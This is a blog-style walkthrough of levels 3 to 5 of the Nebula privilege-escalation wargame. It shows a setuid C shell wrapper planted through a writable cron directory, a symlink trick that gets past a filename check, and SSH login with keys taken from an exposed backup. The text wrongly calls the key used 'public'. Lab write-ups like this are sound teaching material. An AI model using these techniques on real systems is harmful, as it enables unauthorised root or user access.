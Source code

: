 ```yaml
---
title: "Writeup: nebula (level 3 - level 5)"
date: 2020-12-18T12:06:53+08:00
draft: false
---
```


Nebula is a virtual machine that covers a variety of challenges about Linux privilege escalation, scripting language issues, and file system race conditions. It is available at [Exploit Exercises](https://exploit-exercises.lains.space/).

<br>

## Level 3

The description of Level 3 is provided as follows. 

```
Check the home directory of flag03 and take note of the files there.

There is a crontab that is called every couple of minutes.

To do this level, log in as the level03 account with the password level03. 
Files for this level can be found in /home/flag03.
```

As you can see, there are one shell script and one directory in /home/flag03. 

![](https://github.com/chuang76/image/blob/master/03-1.PNG?raw=true)

Let's check the contents of writable.sh. It runs each file in the directory writable.d. 

```
#!/bin/sh
for i in /home/flag03/writable.d/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

According to the hint, there is a crontab in the system. [Cron](https://en.wikipedia.org/wiki/Cron) (cron job) is a time-based job scheduler in Unix-based systems. It provides the user to run the jobs (commands or shell scripts) at fixed times. Its configure table, crontab (cron table), is used to specify the shell command to run periodically on a given schedule. We can check the contents of crontab in /etc directory. 

![](https://github.com/chuang76/image/blob/master/03-6.PNG?raw=true)

Let's check the cron mechanism with a simple experiment. Create a shell script in the writable.d while the shell script is going to create a file named "test" in /home/flag03. As you can see, after two minutes, a file named "test" was created in /home/flag03 indeed. 

![](https://github.com/chuang76/image/blob/master/03-2.PNG?raw=true)

So, to get the flag, we can create a shell script again, which executes our exploit program, in the writable.d. Since /tmp directory is world-writable. We can write our exploit program and compile it in /tmp. It is the same as the exploit program in [Level 1](https://chuang76.github.io/posts/nebula_p1/). 

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char** argv)
{
    gid_t gid = getegid();
    uid_t uid = geteuid();

    setresgid(gid, gid, gid);
    setresuid(uid, uid, uid);

    system("/bin/bash");
}
```

![](https://github.com/chuang76/image/blob/master/03-3.PNG?raw=true)

Also, the shell script named run.sh contains the following commands. 

```
cp /tmp/vul /home/flag03/vul 
chmod u+s /home/flag03/vul
```

After a couple of minutes, cron runs the jobs (include shell scripts) in the system. Therefore, an executable named `vul` exists in /home/flag03. Besides, due to chmod command previously executed, we have the permission to run vul. 

![](https://github.com/chuang76/image/blob/master/03-4.PNG?raw=true)

Now, let's run this exploit executable to control the bash of the account flag03. 

![](https://github.com/chuang76/image/blob/master/03-5.PNG?raw=true)

<br>

## Level 4

The description of Level 4 is provided as follows.

```
This level requires you to read the token file, but the code restricts the files 
that can be read. Find a way to bypass it :)

To do this level, log in as the level04 account with the password level04. 
Files for this level can be found in /home/flag04.
```

The source code is available. 

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
      char buf[1024];
      int fd, rc;

      if(argc == 1) {
          printf("%s [file to read]\n", argv[0]);
          exit(EXIT_FAILURE);
      }

      if(strstr(argv[1], "token") != NULL) {
          printf("You may not access '%s'\n", argv[1]);
          exit(EXIT_FAILURE);
      }

      fd = open(argv[1], O_RDONLY);
      if(fd == -1) {
          err(EXIT_FAILURE, "Unable to open %s", argv[1]);
      }

      rc = read(fd, buf, sizeof(buf));

      if(rc == -1) {
          err(EXIT_FAILURE, "Unable to read fd %d", fd);
      }

      write(1, buf, rc);
}
```

According to the source code, if we use "token" as the argument of flag04, we'll get the error message: You may not access token. However, we can perform an indirect way to view the contents of a restricted file. That is, create a symbolic link of the file token. 

```
$ ln -s [target] [target_symbolic]
```

![](https://github.com/chuang76/image/blob/master/04-1.PNG?raw=true)

After we have made the symbolic link, we can execute target_symbolic file, just as we could with the target file. Now, we can read the contents of token as follows. 

![](https://github.com/chuang76/image/blob/master/04-2.PNG?raw=true)

Use the token as the password of account flag04, then we can get the flag. 

![](https://github.com/chuang76/image/blob/master/04-3.PNG?raw=true)

<br>

## Level 5

The description of Level 5 is provided as follows.

```
Check the flag05 home directory. You are looking for weak directory permissions

To do this level, log in as the level05 account with the password level05. 
Files for this level can be found in /home/flag05.
```

We first check the contents in the directory /home/flag05. 

![](https://github.com/chuang76/image/blob/master/05-1.PNG?raw=true)

There is a compressed file in the directory .backup. Let's try to uncompress it. However, the error message indicates that we don't have the permission. 

![](https://github.com/chuang76/image/blob/master/05-2.PNG?raw=true)

To get rid of the permission issue, let's copy this file into /tmp directory. 

![](https://github.com/chuang76/image/blob/master/05-3.PNG?raw=true)

Now, we are able to uncompress the compressed file with tar command. 

![](https://github.com/chuang76/image/blob/master/05-4.PNG?raw=true)

After uncompressing the file, we obtain the public key, which helps us to log into a remotely as account flag05. [SSH](https://en.wikipedia.org/wiki/SSH_(Secure_Shell)) (Secure shell) is a cryptographic network protocol. It provides users to control the remote servers over the Internet, such as login, remote command-line, to name a few. 

Since SSH uses [public-key cryptography](https://en.wikipedia.org/wiki/Public-key_cryptography) to authenticate and now we have the public key, we are allowed to log in remotely as the account flag05 without any passwords. Let's try it via ssh command. 

```
$ ssh flag05@localhost
```

As you can see, we log in as the account flag05. 

![](https://github.com/chuang76/image/blob/master/05-5.PNG?raw=true)

Here is the flag. 

![](https://github.com/chuang76/image/blob/master/05-6.PNG?raw=true)





